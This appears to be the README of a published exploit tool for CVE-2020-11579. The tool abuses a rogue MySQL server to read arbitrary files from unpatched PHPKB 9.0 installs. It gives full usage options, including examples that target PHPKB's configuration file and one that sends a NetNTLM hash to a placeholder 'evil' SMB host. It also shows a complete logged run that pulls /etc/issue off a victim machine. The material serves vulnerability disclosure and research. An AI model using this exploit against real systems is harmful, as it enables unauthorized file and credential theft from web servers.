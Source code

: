# CVE-2020-11579

## Introduction
[PHPKB 9.0 Enterprise Edition (MySQL database)](https://www.knowledgebase-script.com/) is affected by an unauthenticated arbitrary file disclosure via a malicious MySQL Server. 

A remote attacker can read any file on a remote victim host with web-server privileges (e.g. `www-data`), via a single HTTP GET request.

Read more at https://shielder.it/blog/mysql-and-cve-2020-11579-exploitation

## Note
The script can also be run in `server-only mode` and it provides a standalone MySQL Server to use for similar vulnerabilities.

## Usage
```
usage: CVE-2020-11579.py [-h] [-rh RHOST] -lh LHOST [-lp LPORT] [-f FILE]
                         [-c {mysql_cli,mysqlnd}] [-s] [-d] [-o OUTPUT_FILE]

optional arguments:
  -h, --help            show this help message and exit
  -rh RHOST, --rhost RHOST
                        remote PHPKB webroot, e.g.:
                        http://10.10.10.11:8080/phpkbv9
  -lh LHOST, --lhost LHOST
                        local host ip/hostname to expose the rogue mysql
                        server at
  -lp LPORT, --lport LPORT
                        local port to expose the rogue mysql server at
  -f FILE, --file FILE  remote file to exfiltrate, e.g.
                        `\\evil.smb.server.ip\netntlm\leak.jpg` or PHPKB's `../../admin/include/configuration.php`
  -c {mysql_cli,mysqlnd}, --configuration {mysql_cli,mysqlnd}
  -s, --server-only     start rogue mysql server and wait
  -d, --debug           enable debug mode
  -o OUTPUT_FILE, --output-file OUTPUT_FILE
                        save exfiltrated file to path
```

## Example run

### Gif version
![Example run gif](example.gif)

### Textual version
```
$ ./CVE-2020-11579.py -rh http://192.168.252.130 -lh 0.0.0.0 -f '/etc/issue' -lp 3308 -d
2020-03-17 06:22:22,796 - INFO - triggering mysql connection...
2020-03-17 06:22:23,804 - INFO - new connection from: 192.168.252.130:55628:
2020-03-17 06:22:23,804 - DEBUG - server -> client: (Server Greeting)
0000 50 00 00 00 0a 35 2e 31 2e 36 36 2d 30 2b 73 71 P....5.1.66-0+sq
0010 75 65 65 7a 65 31 00 36 00 00 00 31 32 33 34 35 ueeze1.6...12345
0020 36 37 38 00 df f7 08 02 00 00 00 15 00 00 00 00 678.............
0030 00 00 00 00 00 00 77 68 61 74 65 76 65 72 00 6d ......whatever.m
0040 79 73 71 6c 5f 6e 61 74 69 76 65 5f 70 61 73 73 ysql_native_pass
0050 77 6f 72 64                                     word
2020-03-17 06:22:23,805 - DEBUG - client -> server: (len)
0000 55 00 00                                        U..
2020-03-17 06:22:23,805 - DEBUG - client -> server: (data)
0000 01 8d a2 0a 00 00 00 00 c0 08 00 00 00 00 00 00 ................
0010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
0020 00 74 65 73 74 00 14 fe 23 45 40 fd 5b 09 3e c8 .test...#E@.[.>.
0030 37 69 3b b0 c8 f8 9b fb 44 a0 0f 74 65 73 74 00 7i;.....D..test.
0040 6d 79 73 71 6c 5f 6e 61 74 69 76 65 5f 70 61 73 mysql_native_pas
0050 73 77 6f 72 64 00                               sword.
2020-03-17 06:22:23,805 - INFO - received login info and client capabilities ^
2020-03-17 06:22:23,805 - INFO - client has LOAD DATA LOCAL bit set (good)
2020-03-17 06:22:23,805 - DEBUG - server -> client: (Response OK)
0000 07 00 00 02 00 00 00 02 00 00 00                ...........
2020-03-17 06:22:23,805 - INFO - fake authentication finished
2020-03-17 06:22:23,806 - DEBUG - client -> server: (len)
0000 0f 00 00                                        ...
2020-03-17 06:22:23,806 - DEBUG - client -> server: (data)
0000 00 03 53 45 54 20 4e 41 4d 45 53 20 75 74 66 38 ..SET NAMES utf8
2020-03-17 06:22:23,806 - INFO - received Request Query (this is going to be ignored) ^
2020-03-17 06:22:23,806 - DEBUG - server -> client: (file request / response TABULAR)
0000 0b 00 00 01 fb 2f 65 74 63 2f 69 73 73 75 65    ...../etc/issue
2020-03-17 06:22:23,806 - DEBUG - client -> server: (len)
0000 1a 00 00                                        ...
2020-03-17 06:22:23,806 - DEBUG - client -> server: (data)
0000 02 55 62 75 6e 74 75 20 31 36 2e 30 34 2e 36 20 .Ubuntu 16.04.6
0010 4c 54 53 20 5c 6e 20 5c 6c 0a 0a                LTS \n \l..
2020-03-17 06:22:23,806 - INFO - received file contents ^
2020-03-17 06:22:23,807 - DEBUG - client -> server: (len)
0000 00 00 00                                        ...
2020-03-17 06:22:23,807 - DEBUG - client -> server: (data)
0000 03                                              .
2020-03-17 06:22:23,807 - DEBUG - server -> client: (Response OK)
0000 07 00 00 04 00 00 00 02 00 00 00                ...........
2020-03-17 06:22:23,807 - INFO - file exfiltration finished
2020-03-17 06:22:23,807 - CRITICAL - Successfully extracted file from 192.168.252.130:55628:
Ubuntu 16.04.6 LTS \n \l


2020-03-17 06:22:23,807 - DEBUG - client -> server: (len)
0000 01 00 00                                        ...
2020-03-17 06:22:23,807 - DEBUG - client -> server: (data)
0000 00 01                                           ..
2020-03-17 06:22:23,807 - INFO - received request command quit ^
2020-03-17 06:22:23,807 - DEBUG - server -> client: (quitting)
0000 00                                              .
2020-03-17 06:22:23,809 - INFO - mySQL connection successfully triggered
2020-03-17 06:22:23,809 - INFO - stopping the server...
```

## Contribute
Have you found a client which is not currently supported but you made it somehow work? Send a pull-request with the new client configuration (search for `# add here any new client configuration` in CVE-2020-11579.py) and we will accept it! :smile:

## Credits 
* [polict](https://twitter.com/polict_) of Shielder for the vulnerability discovery and server improvements
* [Gifts](https://github.com/Gifts) for the original rogue MySQL server